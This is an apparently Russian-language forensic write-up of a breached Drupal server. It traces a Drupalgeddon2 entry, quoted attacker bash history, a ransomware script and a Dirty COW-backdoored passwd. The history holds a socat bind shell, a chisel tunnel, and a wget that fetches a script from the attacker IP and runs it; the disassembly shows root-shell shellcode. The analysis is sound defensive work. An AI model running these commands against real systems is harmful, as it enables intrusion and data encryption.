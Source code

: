 Попробуем зайти с кредами от 10.x.2.10 и нам везет. Запускаем linpeas и видим нехорошие настройки sudo. `sudo -i` и у нас снова root доступ.



### Проникновение
Первым флажочком компроментации является интересная запись в логах:
```
127.0.0.1:80 10.18.200.50 - - [05/Mar/2022:15:06:49 +0300] "GET /?q=user/password HTTP/1.1" 200 33649 "-" "drupalgeddon2"
```
Оказывается, на нашем сервере есть уязвимость в Drupal. Сверяем версии и действительно подходит (еще эту уязвимость выдал OpenVAS). 
IP адрес атакующего `10.18.200.50`.

### Шифрование
Осматривая систему находим `/var/www/html`. Там, помимо сайта, лежат много файлов с расширением 
`.encr`.  Похоже, что имеем дело с шифрованием.

В `/root/,bashrc_history`:
```
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit  
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit  
setsid /var/www/html/chisel client 10.18.200.50:8083 R:socks 2>1 > /dev/null && exit  
wget http://10.18.200.50/encr.sh -O /var/www/html/encr.sh;exit  
chmod -R 777 /var/www/html;exit  
/var/www/html/encr.sh;exit  
rm -f /var/www/html/shell.php;exit  
rm -f /var/www/html/encr.sh;exit  
rm -f /var/www/html/sploit.c;exit  
pkill -9 -f socat  
pkill -9 -f socat
```
Явный вызов шифровальщика.
### /usr/bin/passwd
При попытке поменять пароль у root замечаем странное поведение утилиты `passwd`. Забираем ее себе и смотрим дисасм:
```
xor rdi, rdi
push 0x69
pop rax
syscall
push 0x3b
pop rax
cdq
movabs rbx, 0x68732f6e69622f ; "/bin/sh"
```
Выглядит подозрительно... Пробуем запустить (установим suid и пользователя в root) и получаем root шелл.

### /var/www/html/sploit
Так же в этой же папке найден подозрительный файл `/var/www/html/sploit`. Снова скачиваем, открываем в r2. Видим несколько приятных строчек: `/usr/bin/passwd`, `DitryCow`, `cp %s /tmp/bak`.   Изучая в каком порядке эти строчки появляются (а также по поведению программы `passwd`) делаем вывод, что эта бинарь перезаписывает passwd, чтобы та давала рутовый шелл.
